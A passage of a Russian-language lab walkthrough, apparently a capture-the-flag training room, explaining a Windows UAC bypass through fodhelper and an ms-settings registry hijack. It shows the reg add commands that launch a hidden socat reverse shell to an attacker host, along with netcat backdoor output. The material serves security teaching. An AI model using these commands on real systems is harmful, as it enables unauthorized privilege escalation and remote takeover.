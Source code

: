Возвращаясь к fodhelper, мы теперь видим, что он пытается открыть файл под ProgID ms-settings. Создав ассоциацию для 
этого ProgID в контексте текущего пользователя в HKCU, мы переопределим общесистемную ассоциацию по умолчанию и, 
следовательно, будем контролировать, какая команда используется для открытия файла. Поскольку fodhelper является 
исполняемым файлом autoElevate, любой порождаемый им подпроцесс унаследует маркер высокой целостности, эффективно 
обходя UAC.



#### Собираем все вместе
Один из наших агентов установил бэкдор на целевом сервере для вашего удобства. Ему удалось создать учетную запись в 
группе администраторов, но UAC препятствует выполнению любых привилегированных задач. Чтобы получить флаг, ему нужно,
чтобы вы обошли UAC и получили полностью функциональную оболочку с высоким IL.

Для подключения к бэкдору можно использовать следующую команду:

`nc MACHINE_IP 9999`
После подключения мы проверяем, входит ли наш пользователь в группу администраторов и работает ли он со средним 
токеном целостности:

Оболочка атакующего
```commandline
user@kali$ nc MACHINE_IP 9999
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
myserver\attacker

C:\Windows\system32>net user attacker | find "Local Group"
Local Group Memberships      *Administrators       *Users                

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192
```

Мы устанавливаем требуемые значения реестра, чтобы связать класс ms-settings с обратной оболочкой. Для вашего 
удобства копию socat можно найти на `c:\tools\socat\`. Для установки необходимых ключей реестра из стандартной 
командной строки можно использовать следующие команды:

Командная строка
```commandline
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f
The operation completed successfully.
```
